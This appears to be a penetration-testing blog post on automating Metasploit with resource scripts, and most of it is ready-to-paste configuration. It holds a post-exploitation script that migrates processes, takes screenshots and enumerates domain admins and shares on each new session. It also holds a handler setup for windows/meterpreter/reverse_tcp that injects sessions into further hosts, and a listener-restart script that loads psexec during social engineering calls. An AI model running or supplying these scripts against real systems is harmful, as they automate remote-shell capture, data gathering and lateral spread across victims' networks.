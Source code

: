 ```yaml
---
layout: post
title: Hit the Ground Running- Automating Metasploit
summary: Use resource scripts to run common Metasploit tasks quickly
tags:
- metasploit
---
```

     
There are a number of commands that tend to get run on every session on a target I get in Metasploit. Using resource files, these commands can be automated to dump as much information as possible, as quickly as possible. This can be combined with an MSFConsole autostart script to automate the starting of handlers and pre-fill options for post modules that don't need to be run on every session.

First we make a new file for the autorunscript to be run on each new session:
`nano /infogather`
     
and paste the following in the file:

```plaintext
run migrate -f
screenshot -v false
ps
ipconfig
sysinfo
run post/windows/gather/enum_shares
run post/windows/gather/enum_domain_group_users  group="Domain Admins"
run post/windows/gather/checkvm
screenshot -v false
background
```
     
Each command will be run sequentially and then background the session. Any command that can be run through a meterpreter shell can be used, with options added (for example, screenshot using the -v false option). Running the above commands will save screenshots to the default directory, `/root/*RANDOMNAME*.jpeg` and will save the output from the other gather post modules to the `/root/.msf4/loot` directory.

It should be noted that running a large number of commands could cause sessions to drop. If you find that being the case, try removing some of the commands you don’t need output from on every session. Alternatively, this could be run up as a resource file by calling it with:
     
`resource /infogather`

Now we're all set to catch some shells. Let's make that easier by having a handler autostart, get logging all set up, and get the `post/windows/manage/multi_meterpreter_inject module` ready to spread our session to some other machines for posterity.
     
     
Let's create the `/root/.msf4/msfconsole.rc` file that MSFConsole will automatically run with 

`nano /root/.msf4/msfconsole.rc`
     
and paste the following in the file:

```plaintext
spool /mylog.log
set consolelogging true
set loglevel 5
set sessionlogging true
set timestampoutput true
set prompt %T S:%S J:%J
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost X.X.X.X
set lport YYY
set exitonsession false
set enablestageencoding true
set autorunscript multi_console_command.rb -rc /autosploit
exploit -j -z
use post/windows/manage/multi_meterpreter_inject
set iplist X.X.X.X;X.X.X.X
set lport YYY
jobs
```
     
Similar to the autosploit resource file, any command normally entered into the msf prompt can be used-- enabling you to set up any post module you want. Don't forget to replace the Xs above with the proper IP data. If you're using the `multi_meterpreter_inject`, you can add multiple addresses in a semicolon-separated list to spread the meterpreter session to numerous boxes for penetration.

Finally, we’ll create a resource file to kill and restart a listener-- good for when you’re on a social engineering call and the just isn’t quite coming in. 

`nano /bounce`
     
then paste the following into the file:

```plaintext
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost X.X.X.X
set lport YYY
set exitonsession false
set enablestageencoding true
set autorunscript migrate -f
jobs -K
exploit -j -z
use exploit/windows/smb/psexec
```
     
Now we can call the resource file with the following command from the msf prompt:

`resource /bounce`
  